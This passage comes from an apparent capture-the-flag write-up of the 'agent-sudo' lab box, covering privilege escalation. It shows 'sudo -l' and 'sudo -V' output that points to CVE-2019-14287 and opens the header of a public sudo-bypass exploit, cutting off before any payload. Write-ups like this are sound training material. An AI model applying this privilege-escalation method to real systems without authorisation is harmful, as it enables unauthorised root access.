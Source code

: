 ![roswell](./docs/agentsudo/agent_05_roswell.png)<br><br>

## Privilege escalation
<br>

Now it is time to elevate our privileges. Checking the *sudo* privilegs of *james* reveals that we can execute */bin/bash* as any user. Checking the *sudo* version indicates the system is vulnerable to CVE-2019-14287:<br><br>

```
sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
    
james@agent-sudo:~$ sudo -V

Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

**CVE-2019-14287**<br><br>

```py
# Exploit Title : sudo 1.8.27 - Security Bypass
# Date : 2019-10-15
# Original Author: Joe Vennix
# Exploit Author : Mohin Paramasivam (Shad0wQu35t)
# Version : Sudo <1.8.28
# Tested on Linux
# Credit : Joe Vennix from Apple Information Security found and analyzed the bug
# Fix : The bug is fixed in sudo 1.8.28
# CVE : 2019-14287

'''Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)

```